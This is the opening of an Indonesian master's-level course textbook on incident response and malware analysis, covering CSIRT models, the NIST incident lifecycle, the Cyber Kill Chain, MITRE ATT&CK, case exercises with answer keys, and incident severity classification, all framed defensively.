# BUKU AJAR
# INCIDENT RESPONSE & MALWARE ANALYSIS
## MK-E-03

---

**Program Studi:** Magister Terapan Forensik Digital dan Keamanan Siber
**Departemen:** Teknik Informatika dan Komputer
**Institusi:** Politeknik Elektronika Negeri Surabaya (PENS)
**Tahun Akademik:** 2025/2026

---

## METADATA MATA KULIAH

| Atribut | Nilai |
|---|---|
| Kode Mata Kuliah | MK-E-03 / ELEKTIF-G1-G3 |
| Nama Mata Kuliah | Incident Response & Malware Analysis |
| Rumpun Mata Kuliah | Keilmuan Inti (Security Operations, Incident Management, Malware Analysis) |
| Bobot SKS | T = 2, P = 1, Total = 3 SKS |
| Semester | 1 atau 3 (Pool Gasal/Pendalaman Tesis) |
| Level Bloom | C4–C5 (Analisis dan Evaluasi) |
| Nomor Dokumen | FM.RPS.MTr.FDKS.MK-E-03.2025 |

---

## KATA PENGANTAR

Buku ajar ini disusun untuk membekali mahasiswa Program Studi Magister Terapan Forensik Digital dan Keamanan Siber dengan kemampuan operasional di bidang *Incident Response* dan *Malware Analysis* — dua disiplin yang saling melengkapi dalam ekosistem keamanan siber modern.

Insiden keamanan bukan lagi pertanyaan "apakah akan terjadi" tetapi "kapan akan terjadi." Kemampuan organisasi untuk mendeteksi, merespons, dan pulih dari insiden secara efektif — serta kemampuan untuk memahami alat serangan yang digunakan musuh — menjadi kompetensi inti yang tidak dapat ditawar bagi praktisi keamanan siber tingkat lanjut.

Buku ini dirancang dengan filosofi *evidence-based reasoning*: setiap langkah dalam respons insiden harus dapat dipertanggungjawabkan, setiap temuan harus dapat diaudit, dan setiap rekomendasi harus berakar pada bukti yang sahih. Analisis malware yang disajikan selalu dalam konteks defensif — memahami musuh untuk membangun pertahanan yang lebih baik, bukan untuk mereplika kapabilitas ofensif.

Seluruh praktikum dalam buku ini dirancang untuk dilakukan dalam lingkungan lab yang legal, terisolasi, dan berotorisasi. Tidak ada instruksi dalam buku ini yang ditujukan untuk menyerang sistem nyata atau mendistribusikan malware.

**Prof. Tim Penyusun — Program Studi Magister Terapan FDKS PENS**

---

## DESKRIPSI MATA KULIAH

Mata kuliah **Incident Response & Malware Analysis (MK-E-03)** membekali mahasiswa dengan kemampuan menganalisis, mengelola, dan mendokumentasikan insiden keamanan siber melalui pendekatan CSIRT (*Computer Security Incident Response Team*), triage artefak, *containment*, *eradication*, *recovery*, dan *lessons learned*. Mata kuliah ini juga memperkenalkan analisis malware secara aman dan terkendali untuk mendukung identifikasi IOC (*Indicators of Compromise*), pemetaan TTP (*Tactics, Techniques, and Procedures*), dan rekomendasi mitigasi.

**Bahan Kajian:**
- KI-3: Penanganan dan respons serangan — *incident handling*, *containment*, *eradication*, *recovery*, pelaporan
- KI-9: Respons insiden dan analisis malware — *malware behavior*, triage, artefak insiden, IOC, dan IR *playbook*
- KI-11: Analisis ancaman siber — TTP, *cyber kill chain*, MITRE ATT&CK, *threat hunting*, IOC
- KI-14: *Adversarial behaviours* — motivasi, taktik, teknik, prosedur, *campaign analysis*
- KP-6: Hukum siber, privasi, dan regulasi — *legal/ethical boundary*, *chain of custody*, kepatuhan

---

## PETA OBE: CPL → IK → CPMK → SUB-CPMK → EVALUASI



---

## PETA KOMPETENSI MATA KULIAH

```mermaid
flowchart TD
    ROOT["MK-E-03: Incident Response & Malware Analysis"]
    ROOT --> A["Bab 1-3: IR Foundation\n(CSIRT, lifecycle, etika, hukum)"]
    ROOT --> B["Bab 4-6: Triage & Analysis\n(artefak, log, IOC, timeline)"]
    ROOT --> C["Bab 7-9: Malware Analysis\n(static, dynamic, TTP mapping)"]
    ROOT --> D["Bab 10-11: Response Strategy\n(containment, eradication, recovery)"]
    ROOT --> E["Bab 12-14: Capstone\n(integrated CSIRT case)"]
    ROOT --> F["Bab 15-16: Pengayaan\n(ransomware, cloud IR, SOAR)"]

    A --> A1["CSIRT Model & Roles"]
    A --> A2["IR Lifecycle (NIST SP 800-61)"]
    A --> A3["Severity Matrix & Taxonomy"]
    A --> A4["Legal Boundary & Privacy"]

    B --> B1["Endpoint Artefak"]
    B --> B2["Network Evidence"]
    B --> B3["Log Korelasi & SIEM"]
    B --> B4["IOC Extraction"]
    B --> B5["Chain of Custody"]

    C --> C1["Malware Taxonomy"]
    C --> C2["Static Triage: file, PE, strings"]
    C --> C3["Behavioral: sandbox, process, network"]
    C --> C4["YARA/Sigma Signature"]
    C --> C5["ATT&CK TTP Mapping"]

    D --> D1["Containment Strategies"]
    D --> D2["Eradication & Retest"]
    D --> D3["Recovery & Validation"]
    D --> D4["Communication Plan"]
    D --> D5["Hardening Post-Incident"]
```

---

## PETUNJUK PENGGUNAAN BUKU

Buku ini dirancang sebagai panduan belajar mandiri yang komprehensif dan dapat dibaca dari awal hingga akhir secara berurutan. Setiap bab mengikuti struktur 12 bagian yang konsisten: Capaian Pembelajaran, Peta Konsep (Mermaid), Pengantar Kontekstual, Landasan Teori, Model/Arsitektur, Contoh Terapan, Praktikum, Latihan Pemahaman, Studi Kasus, Kunci Jawaban, Ringkasan, dan Refleksi Profesional.

**Untuk mahasiswa:** Bacalah pengantar kontekstual terlebih dahulu untuk memahami *mengapa* topik penting sebelum masuk ke teori. Kerjakan latihan dan studi kasus secara aktif — jangan hanya membaca kunci jawaban. Lakukan praktikum hanya dalam lingkungan yang aman dan berotorisasi.

**Untuk dosen:** Setiap bab mencakup contoh soal diskusi, pertanyaan reflektif, dan rubrik evaluasi yang dapat digunakan langsung. Praktikum dirancang untuk dapat dilakukan dengan dataset statis tanpa memerlukan koneksi internet atau sistem produksi.

**Peringatan keselamatan lab:** Analisis malware HANYA boleh dilakukan dalam lingkungan terisolasi (VM tanpa koneksi internet, sandbox terkontrol). Sampel malware tidak boleh dieksekusi di luar lingkungan yang telah diotorisasi. Semua artefak yang diserahkan harus berupa hash, screenshot, dan laporan yang telah disanitasi — bukan executable.

---

## PETA BAB DAN DELIVERABLE

| Bab | Pertemuan | Sub-CPMK | Topik Utama | Evaluasi | Deliverable |
|---|---|---|---|---|---|
| 1 | P1 | Sub-CPMK-1 | CSIRT Model & IR Lifecycle | Eval-1 | Kuis |
| 2 | P2 | Sub-CPMK-1 | Incident Classification & Severity | Eval-1 | Tabel klasifikasi |
| 3 | P3 | Sub-CPMK-1 | Legal Boundary, Etika & Evidence Handling | Eval-1 | Scope memo |
| 4 | P4 | Sub-CPMK-2 | Triage Artefak Endpoint & Network | Eval-2 | Artefak inventory |
| 5 | P5 | Sub-CPMK-2 | Log/Telemetry Analysis & Timeline | Eval-2 | Timeline dokumen |
| 6 | P6 | Sub-CPMK-2 | IOC Extraction & Root Cause Hypothesis | Eval-2 | IOC table + laporan triage |
| 7 | P7 | Sub-CPMK-3 | Malware Taxonomy & Static Triage | Eval-3 | Static analysis notes |
| 8 | P8 | Sub-CPMK-3 | Behavioral Analysis & Sandbox | Eval-3 | Behavioral report |
| 9 | P9 | Sub-CPMK-3 | IOC Extraction, YARA/Sigma & ATT&CK | Eval-3 | Malware lab report |
| 10 | P10 | Sub-CPMK-4 | Containment Strategies | Eval-4 | Containment plan |
| 11 | P11 | Sub-CPMK-4 | Eradication, Recovery & Communication | Eval-4 | Playbook + communication brief |
| 12 | P12 | Sub-CPMK-5 | Capstone Fase 1: Analisis Insiden | Eval-5 | Draft laporan CSIRT |
| 13 | P13 | Sub-CPMK-5 | Capstone Fase 2: Malware dalam Insiden | Eval-5 | Malware section laporan |
| 14 | P14 | Sub-CPMK-5 | Capstone Fase 3: CSIRT Report & Briefing | Eval-5/EAS | Laporan final + presentasi |
| 15 | P15 | Pengayaan | Ransomware Response & Cloud IR | — | Reflective note |
| 16 | P16 | Pengayaan | SOAR, CTI Integration & Career Pathway | — | Reflective note |

---

# BAB 1 — CSIRT MODEL DAN INCIDENT RESPONSE LIFECYCLE

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Menjelaskan model dan struktur CSIRT serta peran tiap anggota tim
- Mengidentifikasi tahapan *Incident Response Lifecycle* menurut NIST SP 800-61
- Memahami perbedaan antara berbagai model CSIRT dan implikasinya bagi organisasi
- Menjelaskan hubungan antara IR lifecycle dengan *Cyber Kill Chain* dan MITRE ATT&CK

*Berkaitan dengan Sub-CPMK-1, Eval-1 (10%)*

## 2. Peta Konsep Bab



## 3. Pengantar Kontekstual

Bayangkan skenario berikut: sebuah bank nasional menemukan pada Senin pagi bahwa ribuan data transaksi nasabah telah dieksfiltrasi selama akhir pekan. Server yang terkena dampak masih aktif. Tim IT tidak tahu harus mulai dari mana. Siapa yang memimpin respons? Apa yang harus diamankan terlebih dahulu? Siapa yang perlu diberitahu? Apa yang boleh dan tidak boleh dilakukan tanpa merusak bukti?

Inilah mengapa CSIRT dan IR Lifecycle ada. Tanpa struktur yang jelas, respons insiden menjadi kacau, bukti bisa tercemar, dan pemulihan bisa memakan waktu jauh lebih lama dari yang seharusnya. Sebaliknya, CSIRT yang terlatih dengan IR playbook yang matang dapat menangani insiden yang sama dalam hitungan jam dengan dampak minimal.

## 4. Landasan Teori

### 4.1 Definisi Insiden Keamanan Siber

Menurut NIST SP 800-61, **insiden keamanan** adalah pelanggaran atau ancaman yang segera terhadap kebijakan keamanan komputer, kebijakan penggunaan yang dapat diterima, atau praktik keamanan standar. Ini berbeda dari **event** (setiap kejadian yang dapat diamati) dan **adverse event** (event dengan konsekuensi negatif).

Contoh:
- **Event:** login berhasil oleh admin
- **Adverse event:** login gagal 100 kali dalam 5 menit
- **Incident:** akun admin dikompromis dan digunakan untuk mengakses data sensitif

### 4.2 Model dan Tipe CSIRT

**Internal CSIRT:** Tim keamanan internal organisasi yang menangani insiden dalam lingkup organisasi sendiri. Paling umum di enterprise besar.

**National CSIRT (CERT Nasional):** Melayani kepentingan nasional. Contoh: BSSN-CSIRT di Indonesia, US-CERT di Amerika Serikat. Fokus pada koordinasi antar sektor dan insiden yang berdampak nasional.

**Coordination CSIRT:** Mengkoordinasikan respons antara multiple CSIRT. Tidak menangani insiden langsung, tetapi menjadi hub informasi dan eskalasi.

**Vendor CSIRT:** Tim keamanan produk vendor (misalnya Microsoft Security Response Center / MSRC). Fokus pada kerentanan produk vendor tersebut.

**Hybrid Model:** Kombinasi dari model di atas. Banyak organisasi besar menggunakan internal CSIRT yang berkoordinasi dengan national CSIRT.

### 4.3 Struktur dan Peran CSIRT



**Peran kritis:**
- **Incident Manager:** Bertanggung jawab atas seluruh respons. Membuat keputusan eskalasi, berkomunikasi dengan management, dan memastikan timeline terpenuhi.
- **Analyst L1:** Garis depan monitoring. Menerima alert dari SIEM/EDR, melakukan triage awal, dan menentukan apakah perlu eskalasi ke L2.
- **Forensics Specialist:** Melakukan pengumpulan dan analisis bukti digital yang dapat diaudit. Bertanggung jawab atas *chain of custody*.
- **Communications Liaison:** Mengelola komunikasi internal dan eksternal. Sangat kritis dalam insiden berskala besar atau yang melibatkan data pribadi (UU PDP).

### 4.4 NIST SP 800-61 Incident Response Lifecycle

NIST SP 800-61 mendefinisikan empat fase IR yang menjadi standar industri global:

**Fase 1 — Preparation (Persiapan):**
Fase yang paling sering diabaikan namun paling kritis. Kualitas respons insiden ditentukan oleh seberapa baik persiapan dilakukan sebelum insiden terjadi.

Aktivitas kunci:
- Mengembangkan kebijakan, prosedur, dan playbook IR
- Membangun dan melatih tim CSIRT
- Memastikan infrastruktur deteksi tersedia (SIEM, EDR, logging)
- Menguji IR plan secara berkala (tabletop exercises, simulations)
- Membuat inventori aset dan data kritikal
- Menetapkan hubungan dengan pihak eksternal (law enforcement, vendor forensik)

**Fase 2 — Detection & Analysis (Deteksi dan Analisis):**
Identifikasi bahwa insiden telah atau sedang terjadi, dan pemahaman terhadap scope dan dampak insiden.

Aktivitas kunci:
- Monitoring alert dari berbagai sumber (SIEM, EDR, IDS/IPS, user reports)
- Triage alert: apakah ini true positive atau false positive?
- Analisis artefak: log, pcap, memory dumps, file systems
- Dokumentasi temuan awal
- Estimasi scope: berapa host? berapa data? siapa yang terdampak?
- Prioritisasi: severity dan urgency

**Fase 3 — Containment, Eradication & Recovery:**
Membatasi kerusakan, menghilangkan penyebab, dan memulihkan sistem ke kondisi normal.

*Containment:* Mencegah penyebaran insiden lebih lanjut. Ada dua jenis:
- Short-term containment: isolasi cepat (misalnya blokir IP, isolasi host dari network)
- Long-term containment: solusi lebih permanen yang memungkinkan sistem tetap beroperasi dengan monitoring ketat

*Eradication:* Menghilangkan penyebab insiden dari sistem yang terdampak (misalnya remove malware, menutup kerentanan, mengubah credential yang dikompromis).

*Recovery:* Memulihkan sistem ke operasi normal. Harus disertai dengan monitoring yang intensif untuk memastikan insiden tidak berulang.

**Fase 4 — Post-Incident Activity:**
- Penyusunan laporan insiden yang komprehensif
- *Lessons learned* meeting: apa yang berjalan baik? apa yang kurang?
- Update playbook berdasarkan temuan
- Identifikasi perbaikan sistemik (policy, process, technology)
- Sharing dengan komunitas jika relevan (misalnya melalui ISAC)

### 4.5 Cyber Kill Chain

Model Lockheed Martin (2011) menggambarkan 7 tahap serangan yang harus dilalui attacker:

| Tahap | Deskripsi | Peluang Intervensi Defender |
|---|---|---|
| 1. Reconnaissance | Pengumpulan informasi target | Intelligence gathering, monitoring open-source |
| 2. Weaponization | Mempersiapkan payload malware | Threat intelligence, indicator sharing |
| 3. Delivery | Pengiriman payload (email, USB, web) | Email filtering, web filtering, user awareness |
| 4. Exploitation | Eksekusi exploit | Patch management, AV, sandboxing |
| 5. Installation | Pemasangan malware/backdoor | EDR, behavioral detection, AV |
| 6. C2 | Command and control | Network monitoring, DNS filtering, IPS |
| 7. Actions on Objectives | Eksfiltrasi, enkripsi, sabotase | DLP, segmentasi, anomaly detection |

Kill chain sangat berguna untuk memahami *di mana* dalam tahap serangan insiden saat ini berada, dan mengidentifikasi kapabilitas defender yang perlu diprioritaskan.

### 4.6 MITRE ATT&CK

ATT&CK (*Adversarial Tactics, Techniques, and Common Knowledge*) adalah knowledge base yang dikembangkan MITRE berdasarkan observasi nyata terhadap perilaku adversary. Lebih granular dari Kill Chain — mendokumentasikan ratusan teknik spesifik yang digunakan attacker.

Dalam konteks IR, ATT&CK digunakan untuk:
1. Mendeskripsikan teknik yang digunakan attacker dalam insiden yang sedang ditangani
2. Mengidentifikasi teknik lain yang mungkin digunakan oleh adversary yang sama
3. Merencanakan detection coverage (apakah kita punya deteksi untuk teknik ini?)
4. Komunikasi standar antara tim keamanan

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Kasus: Deteksi Crypto-miner pada Server Web Universitas**

Konteks: IT Security universitas menerima alert dari IDS bahwa sebuah server web mengirim traffic ke mining pool cryptocurrency yang dikenal berbahaya. Alert pertama diterima pukul 02:30 WIB.

Respons CSIRT:
1. **Analyst L1** (Preparation sudah ada: SIEM terkonfigurasi, escalation path jelas) → triage alert → konfirmasi bukan FP → eskalasi ke L2 pukul 02:35 WIB
2. **Detection & Analysis**: L2 memeriksa log server, menemukan proses tidak dikenal dengan CPU 97%, menemukan skrip tersembunyi di `/tmp/.x/`. Scope: satu server, tidak ada data sensitif yang mengalir keluar. Severity: Medium.
3. **CSIRT Incident Manager** diberitahu. Keputusan: short-term containment — isolasi server dari network pada pukul 03:10 WIB.
4. **Eradication**: proses miner di-kill, skrip dihapus, kerentanan yang dieksploitasi diidentifikasi (PHP upload vulnerability). Patch diterapkan.
5. **Recovery**: server dikembalikan ke operasi setelah validasi. Monitoring 48 jam.
6. **Post-incident**: laporan disusun, lessons learned — perlu implementasi CSP (Content Security Policy) dan web application firewall.

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Memahami IR lifecycle melalui simulasi tabletop exercise.

**Skenario tabletop (tidak memerlukan tools khusus):**
Organisasi: Rumah Sakit dengan 500 pasien per hari. Senin pagi, staff melaporkan sistem EMR tidak bisa diakses. Layar menampilkan pesan "Your files have been encrypted. Pay 10 BTC."

Tugas tim (dalam kelompok 4-5 orang, masing-masing memegang peran CSIRT):
1. **Incident Manager:** Nyatakan status insiden (severity, scope awal), siapa yang harus diberitahu dalam 30 menit pertama?
2. **Analyst L2:** Apa 5 informasi yang paling ingin Anda dapatkan dalam jam pertama untuk memahami scope insiden?
3. **Communications Liaison:** Susun pesan singkat (< 3 paragraf) untuk direktur rumah sakit yang menjelaskan insiden tanpa menimbulkan kepanikan berlebih.
4. **Legal Officer:** Apakah ada kewajiban pelaporan regulatoris? (Petunjuk: UU PDP No. 27/2022, apakah data kesehatan terdampak?)
5. **Seluruh tim:** Buat daftar 5 tindakan pertama yang harus dilakukan (dengan urutan prioritas) dan 3 tindakan yang TIDAK boleh dilakukan (mengapa?).

**Output:** Notulen diskusi tabletop, keputusan yang diambil, dan rationale.

## 8. Latihan Pemahaman

1. **(C2 — Pemahaman)** Apa perbedaan antara *event*, *adverse event*, dan *incident* menurut NIST SP 800-61? Berikan masing-masing satu contoh dalam konteks sistem informasi rumah sakit.

2. **(C2 — Pemahaman)** Jelaskan mengapa fase **Preparation** dalam IR Lifecycle sering dianggap sebagai investasi keamanan yang paling penting, meskipun tidak ada insiden yang aktif pada saat itu.

3. **(C4 — Analisis)** Seorang analis menemukan proses mencurigakan di server. Berdasarkan Cyber Kill Chain, pada tahap mana insiden ini kemungkinan berada? Bagaimana jawaban Anda mempengaruhi strategi respons selanjutnya?

4. **(C4 — Analisis)** Dalam MITRE ATT&CK, teknik T1059.001 adalah "Command and Scripting Interpreter: PowerShell." Jika Anda menemukan bukti penggunaan teknik ini dalam insiden, teknik ATT&CK lain apa yang paling mungkin juga digunakan oleh adversary yang sama? Jelaskan reasoning Anda.

5. **(C3 — Aplikasi)** Sebuah perusahaan kecil tidak memiliki CSIRT formal. Mereka hanya memiliki 2 staf IT. Bagaimana Anda merekomendasikan mereka untuk memulgun kapabilitas respons insiden yang minimal namun efektif?

## 9. Latihan Terapan / Studi Kasus

**Studi Kasus 1:** Sebuah perusahaan teknologi menemukan bahwa kode sumber produk mereka telah bocor di GitHub oleh mantan karyawan. Kode tersebut mengandung API key yang masih aktif untuk layanan cloud. Menggunakan NIST IR Lifecycle: (a) Identifikasi fase mana yang paling kritis untuk segera dilakukan; (b) Siapa stakeholder yang harus dilibatkan dan kapan; (c) Apa tindakan containment pertama yang harus diambil; (d) Apakah ini termasuk insiden yang memerlukan pelaporan ke otoritas regulasi? Justifikasikan berdasarkan UU PDP atau regulasi yang relevan.

**Studi Kasus 2:** Tim CSIRT bank menerima laporan dari nasabah bahwa ada transaksi tidak dikenal dari rekening mereka. Investigasi awal menunjukkan pola yang mirip dengan teknik ATT&CK T1078 (Valid Accounts) — attacker menggunakan credential yang valid untuk login. Gunakan model Diamond untuk menganalisis insiden ini: identifikasi *adversary*, *capability*, *infrastructure*, dan *victim*. Apa implikasi dari analisis Diamond terhadap strategi respons?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Event: "Pengguna berhasil login ke sistem EMR pukul 09:00." — kejadian normal, tidak ada konsekuensi negatif. Adverse event: "Login gagal 50 kali dalam 5 menit untuk akun admin." — kejadian dengan konsekuensi negatif potensial (bruteforce attempt), namun belum tentu insiden. Incident: "Akun admin berhasil diakses dari IP asing, dan 500 rekam medis pasien diunduh." — pelanggaran aktual terhadap kebijakan keamanan dengan dampak nyata. Perbedaan penting: tidak semua adverse event adalah insiden; triage diperlukan untuk membedakan.

**Soal 2:** Preparation penting karena: (a) waktu insiden adalah waktu terburuk untuk membuat kebijakan — tekanan, kepanikan, dan kekurangan informasi menghambat keputusan rasional; (b) playbook yang sudah teruji memungkinkan respons lebih cepat dan terkoordinasi; (c) infrastruktur yang sudah tersedia (logging, monitoring) menentukan seberapa banyak evidence yang dapat dikumpulkan saat insiden; (d) hubungan yang sudah dibangun (dengan law enforcement, vendor forensik, CERT nasional) sangat sulit dibangun saat krisis.

**Soal 3:** Proses mencurigakan dengan CPU tinggi yang tiba-tiba muncul paling mungkin berada di **tahap Installation** atau **Actions on Objectives** dalam Kill Chain. Implikasi respons: jika masih di Installation, mungkin belum ada eksfiltrasi data — prioritas adalah mengidentifikasi bagaimana malware masuk (Delivery, Exploitation) dan memastikan tidak ada lateral movement. Jika sudah di Actions on Objectives (misalnya crypto-miner aktif), fokus pada containment dan eradication sambil menganalisis apakah ada tujuan lain selain mining.

**Soal 4:** T1059.001 (PowerShell) dalam ATT&CK sering dikombinasikan dengan: T1086 (PowerShell historically), T1140 (Deobfuscate/Decode Files), T1027 (Obfuscated Files), T1105 (Ingress Tool Transfer — untuk download payload via PowerShell), T1003 (OS Credential Dumping via PowerShell), T1547 (Boot or Logon Autostart Execution — untuk persistence). Reasoning: PowerShell sering digunakan sebagai living-off-the-land tool — attacker menggunakannya untuk download, decode, dan execute payload, serta untuk credential theft. Sehingga teknik yang biasanya menyertai adalah persistence, credential access, dan defense evasion.

**Soal 5:** Minimal viable CSIRT untuk 2 staf IT: (a) Kebijakan minimal: siapa yang memimpin jika ada insiden, siapa yang dihubungi (termasuk nomor darurat vendor, CERT nasional BSSN); (b) Playbook sederhana untuk skenario paling umum: ransomware, phishing, akun dikompromis; (c) Backup yang teruji dan terpisah dari jaringan; (d) Logging dasar: Windows Event Log, firewall log; (e) Kontak ke managed security service provider (MSSP) untuk insiden yang melebihi kapabilitas tim.

**Studi Kasus 1:** (a) Containment paling kritis — API key yang masih aktif harus di-revoke segera (< 15 menit setelah konfirmasi); (b) Stakeholder: CISO (immediate), Legal (< 1 jam), management (< 2 jam), jika data pengguna dalam kode maka DPO dan otoritas UU PDP; (c) Tindakan containment pertama: (1) revoke semua API key yang terekspos, (2) minta GitHub remove repository (DMCA + abuse report), (3) audit penggunaan API key tersebut dalam cloud logs untuk mengetahui apakah sudah disalahgunakan; (d) Kewajiban pelaporan: jika kode mengandung data pribadi pengguna (nama, email, dll.) → UU PDP No. 27/2022 Pasal 46: wajib notifikasi ke otoritas dan subjek data dalam waktu 14 hari sejak diketahui. Jika hanya API key (bukan data pribadi) → tidak ada kewajiban notifikasi langsung, tapi perlu audit dan dokumentasi.

**Studi Kasus 2:** Diamond Model: *Adversary*: tidak diketahui (internal? external? credential theft via phishing?); *Capability*: akses dengan credential valid — mungkin credential stuffing, phishing, atau insider; *Infrastructure*: login dari IP yang tidak biasa (identifikasi dari log); *Victim*: nasabah bank, institusi bank. Implikasi respons: (a) fokus pada mengidentifikasi bagaimana credential diperoleh — ini menentukan scope seluruh insiden; jika phishing → mungkin banyak nasabah lain yang terpengaruh; jika credential stuffing → nasabah yang menggunakan password yang sama di platform lain; (b) containment: lock akun yang dikompromis, force password reset, tambah MFA; (c) investigasi asal credential → threat intelligence pada darkweb dump.

## 11. Ringkasan Bab

CSIRT adalah tim respons insiden terstruktur dengan peran yang jelas. IR Lifecycle NIST SP 800-61 memiliki empat fase: Preparation, Detection & Analysis, Containment/Eradication/Recovery, dan Post-Incident. Cyber Kill Chain menggambarkan tujuh tahap serangan dan peluang intervensi di setiap tahap. MITRE ATT&CK menyediakan knowledge base TTP yang digunakan untuk mengkarakterisasi, menganalisis, dan mengkomunikasikan teknik adversary.

## 12. Refleksi Profesional

1. IR Lifecycle mengasumsikan bahwa frekuensi dan kualitas "Post-Incident Activity" menentukan kualitas "Preparation" untuk insiden berikutnya. Namun dalam praktik, tekanan operasional sering membuat lessons learned meeting dilewati atau hanya dilakukan secara superfisial. Bagaimana Anda akan membangun budaya organisasi yang secara konsisten melakukan post-incident review yang meaningful, bahkan setelah insiden minor sekalipun?

2. Dalam skenario ransomware rumah sakit (tabletop), ada tegangan antara kebutuhan segera untuk melindungi pasien (mungkin memerlukan membayar ransom untuk mendapatkan akses kembali ke rekam medis) vs. prinsip "jangan membayar" yang diadvokasi oleh law enforcement. Bagaimana seorang Incident Manager yang bertanggung jawab seharusnya mendekati dilema etis ini?


---

# BAB 2 — INCIDENT CLASSIFICATION, SEVERITY MATRIX, DAN RULES OF ENGAGEMENT

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengklasifikasikan insiden berdasarkan taksonomi yang standar
- Menentukan severity dan prioritas insiden menggunakan severity matrix
- Menjelaskan *rules of engagement* dalam respons insiden
- Merancang severity matrix yang sesuai dengan konteks organisasi

*Berkaitan dengan Sub-CPMK-1, Eval-1 (10%)*

## 2. Peta Konsep Bab



## 3. Pengantar Kontekstual

Tidak semua insiden diciptakan sama. Sebuah alert phishing yang berhasil di-catch oleh email filter berbeda dari ransomware yang telah mengenkripsi 1.000 server. Jika semua insiden diperlakukan dengan urgensi yang sama, tim CSIRT akan kehabisan energi pada insiden minor dan mungkin merespons insiden kritis terlambat. Klasifikasi dan severity assessment adalah mekanisme triase — sama seperti IGD rumah sakit yang memprioritaskan pasien berdasarkan kondisi klinis, bukan urutan kedatangan.

## 4. Landasan Teori

### 4.1 Taksonomi Insiden

**Kategori insiden menurut NIST SP 800-61:**

| Kategori | Deskripsi | Contoh |
|---|---|---|
| DoS/DDoS | Serangan yang mencegah akses legitimate | Flooding HTTPS, DNS amplification |
| Malicious Code | Malware yang menginfeksi sistem | Ransomware, trojan, worm |
| Unauthorized Access | Akses tidak sah ke sistem atau data | Credential stuffing, exploitation |
| Inappropriate Usage | Penggunaan aset tidak sesuai kebijakan | Download torrent, pornografi |
| Scans/Probes/Attempted Access | Reconnaissance dan scanning | Nmap scan, vulnerability scanner |
| Investigation | Belum jelas kategorinya, masih dalam investigasi | Alert anomalous traffic |

**Contoh taksonomi kustom untuk rumah sakit:**

| Kode | Kategori | Contoh |
|---|---|---|
| H-1 | Data Breach - Patient Data | Akses tidak sah ke rekam medis |
| H-2 | System Disruption - Clinical | EMR tidak bisa diakses |
| H-3 | Malware | Ransomware di workstation klinis |
| H-4 | Inappropriate Access | Staf mengakses rekam medis pasien selain yang ditanganinya |
| H-5 | Physical Security | Laptop klinis hilang/dicuri |

### 4.2 Severity Assessment

NIST SP 800-61 mendefinisikan tiga dimensi dampak untuk menentukan severity:

**Dimensi 1 — Functional Impact (Dampak Fungsional):**
Dampak terhadap kemampuan organisasi untuk menjalankan fungsi bisnisnya.

| Level | Deskripsi | Contoh |
|---|---|---|
| None | Tidak ada dampak | Scanning terdeteksi tapi tidak berhasil |
| Minimal | Sedikit degradasi | Satu workstation lambat |
| Significant | Gangguan nyata | Satu departemen tidak bisa bekerja |
| Total | Kehilangan kemampuan operasional | Semua server down |

**Dimensi 2 — Information Impact (Dampak Informasional):**
Dampak terhadap kerahasiaan, integritas, atau ketersediaan informasi.

| Level | Deskripsi |
|---|---|
| None | Tidak ada dampak pada data |
| Privacy Breach | Data pribadi terekspos (wajib lapor UU PDP) |
| Proprietary Breach | Data bisnis rahasia terekspos |
| Integrity Loss | Data diubah atau tidak dapat dipercaya |

**Dimensi 3 — Recoverability:**
Kemudahan dan kecepatan pemulihan dari insiden.

| Level | Deskripsi |
|---|---|
| Regular | Pemulihan normal dalam waktu standar |
| Supplemented | Perlu resources tambahan tapi bisa pulih |
| Extended | Perlu waktu lama, mungkin perlu bantuan eksternal |
| Not Recoverable | Data/sistem tidak dapat dipulihkan (kritis jika tidak ada backup) |

**Severity Matrix:**

Kombinasi dari ketiga dimensi di atas menghasilkan severity level:

```
Severity Matrix:
